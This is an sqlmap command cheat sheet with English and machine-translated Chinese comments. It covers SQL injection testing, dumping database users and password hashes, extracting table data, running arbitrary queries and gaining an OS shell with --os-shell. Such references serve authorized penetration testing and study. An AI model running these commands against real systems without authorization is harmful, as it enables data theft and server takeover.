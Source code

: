 # Test URL and POST data and return database banner (if possible)
#测试URL和POST数据并返回数据库横幅（如果可能）
./sqlmap.py --url="<url>" --data="<post-data>" --banner

# Parse request data and test | request data can be obtained with burp
#解析请求数据和测试|请求数据可以通过打嗝获得
./sqlmap.py -r <request-file> <options>

# Fingerprint | much more information than banner
#指纹|比横幅更多的信息
./sqlmap.py -r <request-file> --fingerprint

# Get database username, name, and hostname
#获取数据库用户名，名称和主机名
./sqlmap.py -r <request-file> --current-user --current-db --hostname

# Check if user is a database admin
#检查用户是否是数据库管理员
./sqlmap.py -r <request-file> --is-dba

# Get database users and password hashes
#获取数据库用户和密码哈希值
./sqlmap.py -r <request-file> --users --passwords

# Enumerate databases
#枚举数据库
./sqlmap.py -r <request-file> --dbs

# List tables for one database
#列出一个数据库的表
./sqlmap.py -r <request-file> -D <db-name> --tables

# Other database commands
#其他数据库命令
./sqlmap.py -r <request-file> -D <db-name> --columns
                                           --schema
                                           --count
# Enumeration flags
#枚举标志
./sqlmap.py -r <request-file> -D <db-name>
                              -T <tbl-name>
                              -C <col-name>
                              -U <user-name>

# Extract data
#提取数据
./sqlmap.py -r <request-file> -D <db-name> -T <tbl-name> -C <col-name> --dump

# Execute SQL Query
#执行SQL查询
./sqlmap.py -r <request-file> --sql-query="<sql-query>"

# Append/Prepend SQL Queries
#附加/前置SQL查询
./sqlmap.py -r <request-file> --prefix="<sql-query>" --suffix="<sql-query>"

# Get backdoor access to sql server | can give shell access
#获取后门访问sql server |可以提供shell访问权限
./sqlmap.py -r <request-file> --os-shell
